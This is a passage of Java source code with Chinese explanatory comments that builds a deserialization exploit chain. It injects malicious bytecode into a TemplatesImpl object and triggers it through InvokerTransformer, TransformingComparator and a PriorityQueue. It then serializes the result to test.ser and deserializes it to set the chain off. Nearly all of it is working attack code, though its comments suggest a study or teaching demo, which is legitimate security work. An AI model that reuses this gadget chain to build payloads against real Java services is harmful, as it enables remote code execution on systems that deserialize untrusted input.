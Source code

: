 ```java
        nameField.set(templates, "Calc"); // 任意非null值即可

        // 注入恶意字节码：_bytecodes是二维数组，这里只需要一个恶意类，因此长度为1
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        // 注意：必须用二维数组包裹，因为_bytecodes的类型是byte[][]
        bytecodesField.set(templates, new byte[][]{bytecode});

        // 设置_tfactory字段：TemplatesImpl的getTransletInstance()方法需要该字段不为null
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());


        // ==================== 3. 构造触发链（连接入口与载荷） ====================
        // 3.1 创建InvokerTransformer：通过反射调用指定方法的工具类
        // 这里指定调用"newTransformer"方法（无参数），用于触发TemplatesImpl的代码加载逻辑
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);

        // 3.2 创建TransformingComparator：将比较器与Transformer结合
        // 其compare()方法会调用传入的Transformer的transform()方法
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);

        // 3.3 创建PriorityQueue：反序列化的入口点
        // 构造函数指定初始容量和比较器（使用上面创建的transformingComparator）
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(2, transformingComparator);
        // 添加两个元素：PriorityQueue在序列化时会保存这些元素，反序列化时会对其排序
        priorityQueue.add(templates);
        priorityQueue.add(templates);

        // 反射修改PriorityQueue的内部数组：替换为恶意TemplatesImpl对象
        // 因为add()方法可能会触发提前排序，这里直接修改内部存储避免提前执行
        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, new Object[]{templates, templates});


        // ==================== 4. 序列化与反序列化（触发漏洞） ====================
        // 序列化：将构造好的PriorityQueue写入文件，生成恶意序列化数据
        serialize(priorityQueue);
        System.out.println("序列化完成，生成test.ser文件");

        // 反序列化：读取恶意数据，触发整个调用链
        System.out.println("开始反序列化...");
        unserialize("test.ser");
    }

    /**
     * 序列化对象到文件
     * 作用：将构造好的恶意对象结构写入磁盘，模拟漏洞场景中的数据传输
     */
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.ser"));
        oos.writeObject(obj);
        oos.close();
    }

    /**
     * 从文件反序列化对象
     * 作用：触发漏洞利用链的起点，当读取恶意数据时，自动执行对象的readObject()方法
     */
```